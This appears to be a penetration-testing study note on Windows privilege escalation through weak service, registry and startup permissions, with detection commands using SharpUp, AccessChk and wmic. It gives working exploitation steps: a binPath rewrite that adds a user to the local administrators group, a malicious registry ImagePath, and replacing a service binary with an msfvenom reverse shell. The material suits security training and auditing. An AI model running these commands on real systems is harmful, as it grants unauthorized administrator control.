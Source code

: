 ### **Overview**

- Misconfigured _Access Control Lists (ACLs)_ can allow unprivileged users to escalate privileges.
- Common in _third-party_, _open-source_, or _custom_ software.
- Focus areas:
    - Modifiable service binaries
    - Modifiable service configs (binPath)
    - Unquoted service paths
    - Registry ACLs
    - Startup autoruns

---

## Detection Tools

### **SharpUp (GhostPack)**

- Command:
```powershell
.\SharpUp.exe audit
```

- Detects:
    - Modifiable service binaries
    - Modifiable service configurations

### **AccessChk (Sysinternals)**

- Example:
```cmd
accesschk.exe /accepteula -quvcw <ServiceName>
accesschk.exe /accepteula <user> -kvuqsw hklm\System\CurrentControlSet\services
```

---

## Modifiable Service Binary

### **1. Identified Service (e.g., SecurityService)**

- Path: `C:\Program Files (x86)\PCProtect\SecurityService.exe`
- Permissions:
```cmd
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
- Shows `Everyone` and `Users` have `(F)` — Full Control

### **2. Exploitation**

- Replace binary with malicious one (e.g., reverse shell from `msfvenom`)
- Start service:
```cmd
sc start SecurityService
```

---

## Weak Service Permissions

### **1. Identified Service (e.g., WindscribeService)**

- Startable/stoppable and modifiable by _Authenticated Users_

### **2. Exploitation**

- Change `binPath` to execute command:
```cmd
sc config WindscribeService binpath= "cmd /c net localgroup administrators <user> /add"
sc stop WindscribeService
sc start WindscribeService
```

### **3. Verification**
```cmd
net localgroup administrators
```

### **4. Cleanup**
```cmd
sc config WindscribeService binpath= "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
sc start WindscribeService
```

---

## Unquoted Service Paths

### **1. Concept**

- Windows may misinterpret unquoted paths with spaces.
- Allows hijack by placing malicious executables in:
    - `C:\Program.exe`
    - `C:\Program Files (x86)\System.exe`

### **2. Detection**
```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### **3. Limitation**

- Requires write access to system directories → usually _admin-only_
- Rarely exploitable unless misconfigured

---

## Weak Registry Permissions (Service Configuration)

### **1. Detection**
```cmd
accesschk.exe /accepteula <user> -kvuqsw hklm\System\CurrentControlSet\services
```

### **2. Exploitation**

- Change `ImagePath`:
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\<ServiceName> -Name "ImagePath" -Value "<malicious command>"
```
- Start service

---

## Modifiable Startup Programs

### **1. Detection**
```powershell
Get-CimInstance Win32_StartupCommand | select Name, Command, Location, User | fl
```

### **2. Exploitation**

- Replace or overwrite binary if write access is available
- Persistence or privilege escalation upon user login

---

## Notable Service: UsoSvc (Windows Update Orchestrator)

- Pre-CVE-2019-1322: _modifying service path_ → SYSTEM
- Now patched, but worth checking for legacy systems